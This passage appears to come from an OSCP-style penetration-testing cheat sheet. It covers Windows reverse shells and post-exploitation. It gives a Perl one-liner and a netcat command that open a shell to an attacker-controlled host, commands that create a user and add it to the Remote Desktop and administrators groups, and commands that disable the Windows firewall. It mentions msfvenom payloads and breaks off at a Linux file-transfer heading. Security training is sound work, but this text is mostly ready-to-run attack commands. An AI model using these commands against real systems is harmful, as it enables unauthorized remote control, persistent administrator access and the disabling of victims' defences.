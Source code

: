 ## Windows reverse shells?
Windows is a bit of a different animal because it doesn’t come with the same beautiful command line tools that spoil us in Linux. If we have the need for a reverse shell, then our entry-point was most likely some kind of file upload capability or rce, often through a web-application.

Firstly, if you happen to find a windows system with Perl (unlikely), give this a whirl (source):
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
Otherwise, we have a couple of options:

Attempt to download nc.exe, and then run something along the lines of “nc.exe -e cmd.exe attackerip 1234”.
If we are dealing with an IIS server, create our own .asp or .aspx reverse shell payload with msfvenom, and then execute it.


## Powershell injection
Here’s some other useful commands on windows. If the machine you’re facing has RDP enabled (port 3389), you can often create your own user and add it to the “Remote Desktop Users” group, then just log in via remote desktop.

Add a user on windows:
```
net user $username $password /add
```
Add a user to the “Remote Desktop Users” group:
```
net localgroup "Remote Desktop Users" $username /add
```
Make a user an administrator:
```
net localgroup administrators $username /add
```
Disable Windows firewall on newer versions:
```
NetSh Advfirewall set allprofiles state off
```
Disable windows firewall on older windows:
```
netsh firewall set opmode disable
```

## Generating payloads with msfvenom
If you’re not already familiar with msfvenom, it’s an absolute must for OSCP. Msfvenom is part of the Metasploit Framework, and is used to generate payloads which do all kinds of evil things, from generating reverse shells to generating message boxes for a pretty PoC.

I don’t want to cover msfvenom in detail here, because you can find it easily in other places, like the offsec website.

## File transfer methods — Linux
Once you’ve got command execution, there’s a good chance you will want to transfer files to the victim box.
